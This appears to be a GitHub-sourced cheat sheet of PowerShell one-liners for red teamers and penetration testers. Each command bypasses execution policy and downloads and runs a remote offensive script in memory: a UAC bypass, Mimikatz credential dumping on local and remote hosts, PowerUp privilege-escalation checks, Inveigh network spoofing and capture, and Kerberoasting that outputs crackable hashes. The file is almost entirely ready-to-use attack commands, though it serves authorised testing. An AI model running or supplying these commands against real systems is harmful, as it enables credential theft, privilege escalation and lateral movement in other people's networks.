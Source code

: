 # From https://github.com/babywyrm
# Description: 
#    Collection of PowerShell one-liners for red teamers and penetration testers to use at various stages of testing.

# Invoke-BypassUAC and start PowerShell prompt as Administrator [Or replace to run any other command]
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/privesc/Invoke-BypassUAC.ps1');Invoke-BypassUAC -Command 'start powershell.exe'"

# Invoke-Mimikatz: Dump credentials from memory
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"

# Import Mimikatz Module to run further commands
powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"

# Invoke-MassMimikatz: Use to dump creds on remote host [replace $env:computername with target server name(s)]
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PewPewPew/Invoke-MassMimikatz.ps1');'$env:COMPUTERNAME'|Invoke-MassMimikatz -Verbose"

# PowerUp: Privilege escalation checks
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”

# Invoke-Inveigh and log output to file
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Scripts/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y  –Proxy Y -LogOutput Y -FileOutput Y"

# Invoke-Kerberoast and provide Hashcat compatible hashes
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-kerberoast -OutputFormat Hashcat"
